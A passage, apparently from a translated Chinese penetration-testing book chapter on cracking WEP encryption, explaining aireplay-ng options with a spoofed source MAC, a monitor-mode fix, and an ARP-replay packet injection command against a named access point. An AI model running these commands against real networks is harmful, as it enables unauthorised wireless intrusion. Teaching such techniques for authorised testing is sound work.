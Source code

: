 +   `-e`：这设置了目标 AP SSID

+   `-a`：这设置了接入点的 MAC 地址

+   `-h`：这设置了源 MAC 地址（`00:11:22:33:44:55`是伪造的 MAC 地址）

+   `-ignore-negative-one`：这解决了`mon0`上的固定频道

如果您在运行此命令时遇到问题，请尝试在启用监视模式后将接口关闭。以下是您可以这样做的方法：

```
airmon-ng start wlan0

```

然后，运行以下命令：

```
ifconfig wlan0 down

```

这将解决频道`-1`错误消息，如下所示：

![破解 WEP 加密](img/3183OS_04_10.jpg)

1.  输入以下命令并按*Enter*：

```
aireplay-ng -3 –b 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0

```
